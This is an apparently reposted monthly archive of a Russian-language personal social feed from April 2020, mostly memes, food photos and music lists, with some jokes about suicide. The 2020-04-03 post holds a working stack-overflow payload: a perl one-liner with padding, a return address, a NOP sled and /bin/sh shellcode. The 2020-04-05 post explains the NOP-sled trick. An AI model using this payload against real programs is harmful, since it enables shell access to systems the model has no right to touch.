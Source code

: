 ```yaml
---
title: 2020-04
date: 2020-04-01 00:06:24
draft: false
---
```


date: 2020-04-29 23:03:29
постинг тупых мемов продолжается
-----
same energy

![](/img/vk/zWt7Hzh4Av4.jpg)
![](/img/vk/Pwk8VASAywo.jpg)

date: 2020-04-29 01:55:30
Стався

![](/img/vk/09R_TcVjrqA.jpg)

date: 2020-04-27 23:15:23
Бігаю коли треба. Коли не треба не бігати.

![](/img/vk/3-WFCe54l0A.jpg)

date: 2020-04-27 19:13:42
Ленивый обзор на Канемана

![](/img/vk/Yc4peXftoTU.jpg)

date: 2020-04-22 17:28:22
У меня разрядилась батарейка на мышке, поэтому я теперь как конч сижу с графпланшетом как мышкой. Принимаю заказы, что нарисовать, цена: 0 долларов по сегодняшнему курсу. Примеры моих работ прикрепляю

![](/img/vk/jDbNyNCbp0Y.jpg)
![](/img/vk/OXtkf5Z3Od8.jpg)

date: 2020-04-20 23:03:04
Админ упарывается диффурами, функаном, вариационным анализом и матфизикой с щепоткой квантовой физики
связаны. связаны

![](/img/vk/YSwCdDIoKyo.jpg)

date: 2020-04-19 10:39:16
![](/img/vk/X1CP8Gz0owk.jpg)
![](/img/vk/CXrUjewnou0.jpg)

date: 2020-04-17 03:08:55
Ежевечный пост о том, что слушать на работе
радио сычхаос
http://radcap.ru/witchhouse.html

date: 2020-04-16 20:01:42
1536. Гренки

![](/img/vk/PL5csSKZADc.jpg)

date: 2020-04-15 22:07:18
Достижение получено: есть собственно приготовленные жареные куски теста со сметаной в течение трех дней и не сдохнуть.👍🏻

![](/img/vk/dVlcLgg18wM.jpg)

date: 2020-04-15 10:40:35
❤👇🏻
![](/img/vk/98nSIHInGdE.jpg)

date: 2020-04-13 21:20:54
![](/img/vk/tenor.gif)
      "audio": {
        "artist": "M()RE",
        "title": "Sugarfree",
      },

date: 2020-04-10 20:17:24
134468. Панкейки

![](/img/vk/s7WHzQzHMnY.jpg)

date: 2020-04-09 11:45:43
![](/img/vk/n7Zz3lTXQds.jpg)

date: 2020-04-07 00:29:36
(имя и фото изменены на вымышленные)

![](/img/vk/BStubplyAmg.jpg)

date: 2020-04-05 01:48:43
Полезные советы молодым пывнерам #42:

Чтобы вызвать шелкод со стека вне дебагера, можно добавить 100 или более нопов и к адресу возврата, полученному из дебагера прибавить половину длины нопслайда(в нашем случае 50). Работает понятно только с выключенным ASLR & NX, но зато стабильно. Также полезно спать, а не заниматься перебором оффсетов в полпервого ночи.

![](/img/vk/bFWv4ECx90Q.jpg)

date: 2020-04-04 23:58:39
Это я, пытаюсь понять, зачем чел выделяет 0x68=104 байт на стеке, а юзает только 64+4+8=76

![](/img/vk/Xchf-A-ROW8.jpg)

date: 2020-04-04 13:13:04
PEPELEPSY

https://www.youtube.com/watch?v=0RxAa8a8tUE

date: 2020-04-04 09:11:00
![](/img/vk/0psPeWqTFlM.jpg)
      "audio": {
        "artist": "CRASPORE",
        "title": "Flashbacks",
      },
      "audio": {
        "artist": "Crystal Castles",
        "title": "Sadist",
      },
      "audio": {
        "artist": "fraunhofer diffraction",
        "title": "kali yuga",
      },
      "audio": {
        "artist": "M()RE feat. CHERNOBURKV",
        "title": "\u0421\u0443\u043a\u0438 \u0422\u0430\u043d\u0446\u044b \u0438 \u041d\u043e\u0436\u0438",
      },
      "audio": {
        "artist": "CRASPORE, CHERNOBURKV",
        "title": "\u0417\u0438\u043c\u0430",
      },

date: 2020-04-03 22:58:44
На случай важных переговоров
(perl -e 'print "A" x 76 . pack("I", 0xbffff780) . "\x90" x 60 . "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x4b\x4b\x4b\x4b"'; echo id)

date: 2020-04-01 12:40:35
Если уж собрался заканчивать жизнь😨, то почему бы ❓не отдать все деньги💰 на благотворительность💌. А раз есть такая возможность, то можно еще и поиграть в игрульки🏆, почему бы нет🤔.
https://www.humblebundle.com/conquer-covid19-bundle

date: 2020-04-01 12:04:07
Жизнь — это боль. Я каждое утро просыпаюсь с болью, хожу на работу с болью! Сказать, сколько раз мне хотелось послать все к черту, свести счеты с жизнью?

![](/img/vk/HaSC0UIR8B4.jpg)

